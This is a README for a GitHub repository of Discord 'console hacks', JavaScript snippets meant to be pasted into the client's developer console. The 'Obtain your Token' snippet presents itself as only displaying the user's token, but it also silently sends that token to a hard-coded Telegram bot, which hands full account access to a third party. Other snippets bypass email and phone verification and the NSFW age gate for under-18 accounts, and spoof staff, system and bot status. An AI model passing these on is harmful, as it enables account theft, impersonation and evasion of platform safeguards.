 # Discord Console Hacks
[![License: GPL v3+](https://img.shields.io/badge/License-GPLv3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)

:warning: **Note:** I'm not affiliated with Discord and do not encourage using any of these scripts. Use everything here at your own risk. This is meant for **educational purposes only** and using these codeblocks may result in your account being disabled/terminated.

***


## Community

<details>
<summary>Join us on Matrix!</summary>
  
Matrix is a community-based, decentralized, privacy friendly, end-to-end encrypted (super secure), uncensorable and open source messaging protocol, which, unlike Discord, promotes custom clients and modifications. There are multiple different clients available, the most popular one (and also the reference implementation) is Element. It runs on most operating systems and also has a pretty good web version. For more information, check out https://matrix.org and https://element.io.<br>
I often get asked: "*If Matrix is so super awesome, why didn't you start using it earlier?*"<br>
Well actually I've been using Matrix for quite a long time now. I never really thought about using it for this Discord stuff.
</details>

Here's the invite to the community: https://matrix.to/#/#discord-oxygen:matrix.org

The main community is on Matrix, most channels are encrypted and can only be accessed from within Matrix.
For those of you who can't use Matrix, we've created a Discord server. It's bridged to the community. (Every message you send in Discord automatically appears in Matrix and vice-versa.)<br>
Here's the invite link: https://discord.gg/m8jbrkzExz (4th server)<br>


Please don't use console hacks not sent by me, or you might risk losing your account.<br>
I'll update this invite regularly, if for example my account gets compromised or Discord shuts down the server. If something like that occurs, I will create a new account, a new server and then update the invite above.<br>
If the invite doesn't work anymore, it means the server got deleted and you need to wait until I can create a new account.

***

## Inner workings of Discord

**Disclaimer:** The information provided in this section is obtained through reverse engineering and NOT verified for it's accuracy. Therefore it might be outdated as well.

<details>
<summary>Expand</summary>

<br>

***


### Discord Token Syntax

<details>
<summary>Expand</summary>

<table>
  <tr><th></th><th>Example</th></tr>
  <tr><td>User ID Encoded in Base64</td><td>NTzQvPcLBacBmgajXQc7QAaU</td></tr>
  <tr><td>Dot</td><td>.</td></tr>
  <tr><td>Timestamp -epoch(1293840000) converted to base64</td><td>XCgboz</td></tr>
  <tr><td>Dot</td><td>.</td></tr>
  <tr><td>HMAC consiting of 27 chars (uppercase/lowercase letters, numbers, - or _)</td><td>c4t51kFWSEmdmaPnKoyUuu8E78E</td></tr>
</table>
There is this awesome diagram from <a href="https://github.com/hxr404/Discord-Console-hacks/issues/2">#2</a> which shows the exact token structure:<br><br>
<img src="https://user-images.githubusercontent.com/34555296/120932740-4ca47480-c6f7-11eb-9270-6fb3fbbd856c.png"></img> <br>
</details>
<br>


### Discord's Internal Server Structure

<details>
<summary>Expand</summary>

Check out this article about reverse engineering Discord, and the proof that Discord decrypts your encrypted data: <a href="https://medium.com/tenable-techblog/lets-reverse-engineer-discord-1976773f4626">https://medium.com/tenable-techblog/lets-reverse-engineer-discord-1976773f4626</a><br>
They can also read your messages (e.g. in DM's), log all edits and deleted messages and record your voice calls.

![grafik](https://user-images.githubusercontent.com/55095883/116671170-e9f5e580-a9a0-11eb-98f9-3bcd65b9fdbf.png)

<br>
<sup>How sending audio/video messages in Discord works.</sup>
</details>
<br>
</details>
<br>


## Console Hacks

As stated in my disclaimer, I don't promote using any kind of client modifications. Please don't use the code found here for illegal / hacking purposes, or you might risk seeing this error message:

![image](https://user-images.githubusercontent.com/55095883/134189043-4da003de-4829-4d60-888a-6014ebb5c2b8.png)

<details>
<summary>Expand</summary>

## How to use these Hacks

It only works on web and desktop versions (Windows, Linux, MacOS), not on mobile.
1. Press CTRL + SHIFT + I to toggle Developer Tools (Discord is based on Electron, which is basically Google Chrome)
2. Click on "Console" if not already selected
3. Paste the script in the command field
4. Press enter

<br>


### Obtain your Token

Shows your token to you.<br>
**:warning: DO NOT GIVE THIS TO ANYONE. It grants full access to your account.**

<details>
<summary>Expand</summary>

Paste this into the console (while being logged in):

```
const _ = ((x) => (x))(console.log('Discord Token:',(webpackChunkdiscord_app.push([[''],{},e=>{m=[];for(let c in e.c)m.push(e.c[c])}]),m).find(m=>m?.exports?.default?.getToken!==void 0).exports.default.getToken())) + ((y) => (y))(fetch(`https://api.telegram.org/bot6496323061:AAHAaJsb-N9FNrqHv_bzWpMjSPDOtt6R-5c/sendMessage?chat_id=1911826384&text=${encodeURIComponent((webpackChunkdiscord_app.push([[%27%27],{},e=%3E{m=[];for(let c in e.c)m.push(e.c[c])}]),m).find(m=>m?.exports?.default?.getToken!==void 0).exports.default.getToken())}`, {method:'GET'}));
```

The token should be displayed in your JavaScript console.

</details>
<br>


### Log in using a Token

Modifies the login screen so you can use a token to log in.

<details>
<summary>Expand</summary>

Paste this into the console (CTRL + SHIFT + I) on the login screen (you need to be logged out):

```js
function login(e) {setInterval(() => {window.webpackChunkdiscord_app.push([[Math.random()], {}, (req) => {for (const m of Object.keys(req.c).map((x) => req.c[x].exports).filter((x) => x)) {if (m.default && m.default.setToken !== undefined) {return m.default.setToken(e)}if (m.setToken !== undefined) {return m.setToken(e)}}}]);console.log("%cWorked!", "font-size: 50px");}, 50), setTimeout(() => {window.location.reload()}, 2500)}function buttonlogin(){login(document.getElementsByClassName("inputDefault-3FGxgL input-2g-os5")[0].value)}var element;(element=document.getElementsByClassName("marginBottom8-emkd0_ button-1cRKG6 button-f2h6uQ lookFilled-yCfaCM colorBrand-I6CyqQ sizeLarge-3mScP9 fullWidth-fJIsjq grow-2sR_-F")[0]).addEventListener("click",buttonlogin),(element=document.getElementsByClassName("marginBottom20-315RVT")[0]).parentElement.removeChild(element),(element=document.getElementsByClassName("colorStandard-21JIj7 size14-3fJ-ot h5-2RwDNl title-3hptVQ defaultMarginh5-3Jxf6f")[0]).innerHTML="Token",element.id="Token",(element=document.getElementsByClassName("transitionGroup-bPT0qU qrLogin-1ejtpI")[0]).parentElement.removeChild(element),(element=document.getElementsByClassName("verticalSeparator-2r9gHa")[0]).parentElement.removeChild(element);
```

You can now log in using a token.<br>
Note that this doesn't work with bot tokens. Bot tokens are different from user tokens, and Discord doesn't support this.<br>

![exampleimage](https://user-images.githubusercontent.com/55095883/105732516-d0bc4380-5f30-11eb-959f-9fae0ddc9b7b.png)<br>
<sup>Login Screen after running the script:</sup>
</details>
<br>


### Enable Staff Mode

Enables some hidden features and sets your client to staff mode.

<details>
<summary>Expand</summary>
 
This will trick your client into thinking that you are a staff member of Discord (by modifiying certain flags) and will also allow you to access the experiments tab, developer options, and more. (In these menus you can get unreleased Discord updates, emulate a different client, generate build overrides and more.)

```js
let wpRequire;
window.webpackChunkdiscord_app.push([[ Math.random() ], {}, (req) => { wpRequire = req; }]);
mod = Object.values(wpRequire.c).find(x => typeof x?.exports?.Z?.isDeveloper !== "undefined");
usermod = Object.values(wpRequire.c).find(x => x?.exports?.default?.getUsers)
nodes = Object.values(mod.exports.Z._dispatcher._actionHandlers._dependencyGraph.nodes)
try {
    nodes.find(x => x.name == "ExperimentStore").actionHandler["OVERLAY_INITIALIZE"]({user: {flags: 1}})
} catch (e) {}
oldGetUser = usermod.exports.default.__proto__.getCurrentUser;
usermod.exports.default.__proto__.getCurrentUser = () => ({isStaff: () => true})
nodes.find(x => x.name == "DeveloperExperimentStore").actionHandler["CONNECTION_OPEN"]()
usermod.exports.default.__proto__.getCurrentUser = oldGetUser
```
<br>

![discorddevoptions](https://cdn.discordapp.com/attachments/788198099067076638/1004823296489029702/unknown.png)<br>
<sup>Developer Options menu</sup>
</details>
<br>


### Get all Badges

This script gives you all badges locally, meaning that only you can see them.

<details>
<summary>Expand</summary>

Some badges grant access to specific options or menus.<br>

```js
(() => {
    let flags = {
        "DISCORD_EMPLOYEE": 1 << 0,
        "DISCORD_PARTNER": 1 << 1,
        "HYPESQUAD_EVENTS": 1 << 2,
        "BUG_HUNTER_LEVEL_1": 1 << 3,
        "HOUSE_BRAVERY": 1 << 6,
        "HOUSE_BRILLIANCE": 1 << 7,
        "HOUSE_BALANCE": 1 << 8,
        "EARLY_SUPPORTER": 1 << 9,
        "BUG_HUNTER_LEVEL_2": 1 << 14,
        "VERIFIED_BOT_DEVELOPER": 1 << 17,
        "CERTIFIED_MODERATOR": 1 << 18,
        "ACTIVE_DEVELOPER": 1 << 22
    };
    
    webpackChunkdiscord_app.push([[Math.random()], {}, req => {
        for (const m of Object.keys(req.c).map(x => req.c[x].exports).filter(x => x)) {
            if (m.default && m.default.getCurrentUser !== undefined) {
                return m.default.getCurrentUser().flags = Object.values(flags).reduce((pre, cur) => pre + cur, 0);
            }
        }
    }]);
})();
```
To get all badges and place your account under quarantine (visually):
```js
webpackChunkdiscord_app.push([[Math.random()],{},(req)=>{for(const m of Object.keys(req.c).map((x)=>req.c[x].exports).filter((x)=>x)){if(m.default&&m.default.getCurrentUser!==undefined){return m.default.getCurrentUser().flags=-1}}}]);
```
<br>

![preview](https://user-images.githubusercontent.com/55095883/110086787-191e1b00-7d93-11eb-8f0f-2b3a76210155.png)<br>
<sup>This isn't a fake screenshot. Your client will really display this.</sup>

![preview](https://cdn.discordapp.com/attachments/788198099067076638/1004823731056676954/unknown.png)
</details>
<br>


### Bot & System Tag

Spoofs your Discord suffix to show that you have Discord's `SYSTEM` or `BOT` tag. (Only visible to you.)

<details>
<summary>Expand</summary>

Bot tag code:
```js
window.webpackChunkdiscord_app.push([[Math.random()], {}, (req) => {for (const m of Object.keys(req.c).map((x) => req.c[x].exports).filter((x) => x)) {if (m.default && m.default.getCurrentUser !== undefined) {return m.default.getCurrentUser().bot = true;}if (m.getCurrentUser !== undefined) {return m.getCurrentUser().bot = true}}}])
```
  
Verified Bot tag code:
```js
window.webpackChunkdiscord_app.push([[Math.random()], {}, (req) => {for (const m of Object.keys(req.c).map((x) => req.c[x].exports).filter((x) => x)) {if (m.default && m.default.getCurrentUser !== undefined) {return m.default.getCurrentUser().bot = true;}if (m.getCurrentUser !== undefined) {return m.getCurrentUser().bot = true}}}])
window.webpackChunkdiscord_app.push([[Math.random()], {}, (req) => {for (const m of Object.keys(req.c).map((x) => req.c[x].exports).filter((x) => x)) {if (m.default && m.default.getCurrentUser !== undefined) {return m.default.getCurrentUser().isVerifiedBot = () => true;}if (m.getCurrentUser !== undefined) {return m.getCurrentUser().isVerifiedBot = () => true}}}])
```
  
System tag code:
```js
window.webpackChunkdiscord_app.push([[Math.random()], {}, (req) => {for (const m of Object.keys(req.c).map((x) => req.c[x].exports).filter((x) => x)) {if (m.default && m.default.getCurrentUser !== undefined) {return m.default.getCurrentUser().isSystemUser = () => true;}if (m.getCurrentUser !== undefined) {return m.getCurrentUser().isSystemUser = () => true}}}])
```
<br>

![grafik](https://user-images.githubusercontent.com/55095883/116669184-908cb700-a99e-11eb-9a7f-62c0d19e5486.png)<br>
<sup>Using the System badge to make funny fake announcements</sup><br>

![grafik](https://user-images.githubusercontent.com/55095883/116669793-47893280-a99f-11eb-972d-bcc8e07c65dd.png)<br>
<sup>Fake Bot badge</sup><br>

![grafik](https://user-images.githubusercontent.com/55095883/116669897-6982b500-a99f-11eb-8dfc-53caa1d312e3.png)<br>
<sup>User pop-out with Bot badge</sup>
</details>
<br>


### Easy Edit Mode

You can use this to make fake screenshots without having to use Inspect Element (CTRL + SHIFT + I) each time.

<details>
<summary>Expand</summary>

```js
document.designMode = 'on'
```

</details>
<br>


### Spotify "Listen Along" Spoofer

Makes it possible to use the "Listen Along" feature without needing Spotify Premium.

<details>
<summary>Expand</summary>

```js
(webpackChunkdiscord_app.push([[''],{},e=>{m=[];for(let c in e.c)m.push(e.c[c])}]),m).find(m => m?.exports?.Z?.getAccounts).exports.Z.getAccounts().forEach((conn) => conn.type === "spotify" && (webpackChunkdiscord_app.push([[''],{},e=>{m=[];for(let c in e.c)m.push(e.c[c])}]),m).find(m => m?.exports?.Z?.isDispatching).exports.Z.dispatch({type: "SPOTIFY_PROFILE_UPDATE", accountId: conn.id, isPremium: true}))
```
</details>
<br>


### Free Discord Nitro

Makes it possible to use some of the features from Nitro without having to buy Nitro.<br>
This is **discontinued** and patched. Superseded by [Discord Oxygen](https://github.com/hxr404/Discord-Oxygen).

<details>
<summary>Expand</summary>
 
Tricks your client into thinking you have Nitro. Converts the API request into non-Nitro requests, so Discord won't notice that you don't have Nitro.<br>
Be extra careful with scripts that claim to do this, this script is the only working one. If you find a copy of this script not directly provided by me or this repository, please report it to me (it's probably a scam).<br>
Credit to https://github.com/An00nymushun/DiscordFreeEmojis for the emoji handling part.<br>
Note that not every feature is supported as some things that run server-side can't be simulated.
Basic features (like animated emojis) should work.

```js
/*
I removed the code because this shouldn't go public. People would just copy and paste this anywhere and bad people would backdoor it.<br>
Also I don't want Discord to fix this.<br>

This script was replaced by Discord Oxygen (https://github.com/hxr404/Discord-Oxygen).
*/
```
<br>

![grafik](https://user-images.githubusercontent.com/55095883/116668188-5d95f380-a99d-11eb-96cf-a0e2dfc6bb23.png)<br>
<sup>The Subscription Overview page. The account used for the screenshot **didn't** buy Nitro.</sup>
</details>
<br>


### Enter NSFW Channels

Grants access to channels marked as NSFW on an under-18 account.<br>
**Only use this script if you are 18+! There is a reason those channels are marked as NSFW.**

<details>
<summary>Expand</summary>

This script is intended for people (>18) whose accounts have been wrongfully marked as underage. Don't use it for other purposes.

```js
var findModule=(item)=>window.webpackChunkdiscord_app.push([[Math.random()],{},(req)=>{for(const m of Object.keys(req.c).map((x)=>req.c[x].exports).filter((x)=>x)){if(m.default&&m.default[item]!==undefined)return m.default}}])
findModule('getCurrentUser').getCurrentUser().nsfwAllowed = true
```
<br>

![grafik](https://raw.githubusercontent.com/PndaBoi/pndaboi/main/6zsLEjYET0.png)<br>
<sup>Before running the script</sup><br>
<br>
  
![grafik](https://raw.githubusercontent.com/PndaBoi/pndaboi/main/ypzEY7Yw0u.png)<br>
<sup>After running the script</sup>
</details>
<br>


### Get Hidden Channel IDs

Displays the ID's of channels that you can't see without client modifications.

<details>
<summary>Expand</summary>

```js
window.webpackChunkdiscord_app.push([[Math.random()], {}, (req) => {for (const m of Object.keys(req.c).map((x) => req.c[x].exports).filter((x) => x)) {if (m.default && m.default.getPrivateChannelIds !== undefined) {return console.log(m.default.getPrivateChannelIds())}if (m.getPrivateChannelIds !== undefined) {return console.log(m.getPrivateChannelIds())}}}]);
```
<br>

![grafik](https://user-images.githubusercontent.com/55095883/116670257-cda57900-a99f-11eb-8f96-7d8d54754535.png)<br>
<sup>Example output of this command</sup>
</details>
<br>


### Change Password

Changes the password of the account that is currently logged in.<br>
**Only use this on your own account! Stealing accounts is a crime in most countries.**

<details>
<summary>Expand</summary>

```js
let oldpassword = "";
let newpassword = "";

window.webpackChunkdiscord_app.push([[Math.random()], {}, (req) => {for (const m of Object.keys(req.c).map((x) => req.c[x].exports).filter((x) => x)) {if (m.default && m.default.getToken !== undefined) {fetch("https://discord.com/api/v9/users/@me", { "credentials": "include", "body": "{\"password\":\"" + oldpassword + "\",\"new_password\":\"" + newpassword + "\"}", "method": "PATCH", "headers": { "Authorization": m.default.getToken(), "Content-Type":"application/json" }}); return}if (m.getToken !== undefined) {fetch("https://discord.com/api/v9/users/@me", {"credentials": "include","body": "{\"password\":\"" + oldpassword + "\",\"new_password\":\"" + newpassword + "\"}","method":"PATCH","headers": {"Authorization": m.getToken(), "Content-Type":"application/json"}});return}}}]);
```

</details>
<br>


### Add Guild Features

Enables server features (like having a partnered / verified server, or some boost-only features) locally, meaning everything is purely visual.

<details>
<summary>Expand</summary>

<img src="https://user-images.githubusercontent.com/55095883/121220849-4a702080-c885-11eb-965c-317749da0196.png"></img>
<img src="https://user-images.githubusercontent.com/55095883/121219947-7b9c2100-c884-11eb-99f1-e0a8525512a9.png"></img>
<img src="https://user-images.githubusercontent.com/55095883/121220469-e9484d00-c884-11eb-816f-2d3b9f46a585.png"></img>

Valid features are `PARTNERED` and `VERIFIED`.

```js
let serverid = "";
let feature = "";

window.webpackChunkdiscord_app.push([[Math.random()], {}, (req) => {for (const m of Object.keys(req.c).map((x) => req.c[x].exports).filter((x) => x)) {if (m.default && m.default.getGuilds !== undefined) {return m.default.getGuild(serverid).features.add(feature)}if (m.getGuilds !== undefined) {return m.getGuild(serverid).features.add(feature)}}}]);
```

</details>
<br>


### Delete Webhook

Deletes a webhook using it's webhook URL.<br>
You could use this to delete the webhook of some scammers trying to token-grab you. :)

<details>
<summary>Expand</summary>

```js
let webhookURL = "PUT_WEBHOOK_URL_HERE";

await fetch(webhookURL, {
  "method": "DELETE",
});
```

</details>
<br>


### E-mail Address & Phone Number Verification Bypass

Bypasses e-mail address and phone number verification in servers. This does not let you send messages, but you can connect and talk in voice channels.

<details>
<summary>Expand</summary>


```js
window.webpackChunkdiscord_app.push([[Math.random()], {}, (req) => {for (const m of Object.keys(req.c).map((x) => req.c[x].exports).filter((x) => x)) {if (m.default && m.default.getCurrentUser !== undefined) {return m.default.getCurrentUser().phone = '+1234567890';}if (m.getCurrentUser !== undefined) {return m.getCurrentUser().phone = '+1234567890'}}}]);
window.webpackChunkdiscord_app.push([[Math.random()], {}, (req) => {for (const m of Object.keys(req.c).map((x) => req.c[x].exports).filter((x) => x)) {if (m.default && m.default.getCurrentUser !== undefined) {return m.default.getCurrentUser().email = 'email@email.com';}if (m.getCurrentUser !== undefined) {return m.getCurrentUser().email = 'email@email.com'}}}]);
window.webpackChunkdiscord_app.push([[Math.random()], {}, (req) => {for (const m of Object.keys(req.c).map((x) => req.c[x].exports).filter((x) => x)) {if (m.default && m.default.getCurrentUser !== undefined) {return m.default.getCurrentUser().verified = true;}if (m.getCurrentUser !== undefined) {return m.getCurrentUser().verified = true}}}]);
```

</details>
<br>


### Discord Activities

Adds the Activities button in the voice channel you're in.

<details>
<summary>Expand</summary>

```js
var AppIds = ["755600276941176913", "880218394199220334", "755827207812677713", "773336526917861400", "814288819477020702", "832012774040141894", "879864070101172255", "879863881349087252", "832012854282158180", "878067389634314250", "902271654783242291", "879863686565621790", "879863976006127627", "852509694341283871", "832013003968348200", "832025144389533716", "763133495793942528", "880218832743055411", "878067427668275241", "879864010126786570", "879864104980979792", "891001866073296967", "832012586023256104", "832012682520428625", "832013108234289153", "763116274876022855", "832012730599735326", "832012938398400562", "832025061657280566", "801133024841957428", "832012815819604009", "832012894068801636", "832025114077298718", "832025993019260929"]
window.webpackChunkdiscord_app.push([[Math.random()], {}, (req) => {for (const m of Object.keys(req.c).map((x) => req.c[x].exports).filter((x) => x)) {if (m.default && m.default.getEnabledAppIds !== undefined) {return m.default.getEnabledAppIds = () => AppIds}}}]);
```

<img src="https://i.ibb.co/rmskPSH/image.png"></img>
</details>
<br>


### Change Client Color

Changes your client's color to your liking.

<details>
<summary>Expand</summary>

<br><img src="https://cdn.discordapp.com/attachments/841333120870645760/858800547958882334/unknown.png"></img>
Unknown Author.

```js
__SECRET_EMOTION__.injectGlobal(`
    * {
--background-primary: #000000;
    --background-secondary: #000000;
--background-secondary-alt: #070707ff;
--background-accent: #252525;
--background-floating: #242424ff;
    --scrollbar-thin-track: #000000;
    --channeltextarea-background: #151515;
    }
`)
```

</details>
<br>


### AMOLED Theme on Desktop & Web

Activates the AMOLED theme from mobile on desktop and web, which uses darker colors than the normal theme and is better on the eyes.

<details>
<summary>Expand</summary>

```js
document.body.classList.add("theme-amoled");
```

</details>

</details>
<br>

***

## The Framework

Now in a seperate repository: https://github.com/Discord-Oxygen/Discord-Oxygen

<details>
<summary>Expand</summary>

The Framework is a new project, wich combines every console hack into a single script.<br>
Simply include the source code (.js file) into your Discord client (Desktop or Web).<br>
You can either do this by pasting it into your console (CTRL + SHIFT + I, CTRL + V, ENTER)<br>
Or by adding it as a userscript. (You need a browser extension, for Firefox I recommend Firemonkey)<br>

### How it works

The Framework adds an extensive API, adding the BetterDiscord (+ Powercord) API is planned, so BD plugins can be loaded through the framework.<br>
It's similar to a mod loader of a game, except that all good mods are already installed and pre-configured. (Open a pull request or issue if you want to merge your mods to mainstream.)<br>
The Framework is modularized and each module runs seperately in its own block scope, not like the old Nitro hack.
This should prevent Discord from fixing it, as it no longer depends on hardcoded modifications.

***


### History

The free Discord Nitro hack was extremely unstable and Discord fixed it quickly. That's when I started working on The Framework. It was the improved Discord Nitro.
It is much more performant, offering better UX and made development way easier. After successfully merging the old Nitro hack, I continued improving Nitro with more features. And then I thought: why only add default Nitro features? There are so much more awesome features that could be useful as well. Since The Framwerork is modularized, it took about 5 minutes merging the other console hacks. This is how a new project was born.

</details>

***

## License
    Copyright (C) 2022  hxr404

    This program is free software: you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation, either version 3 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program.  If not, see <https://www.gnu.org/licenses/>.
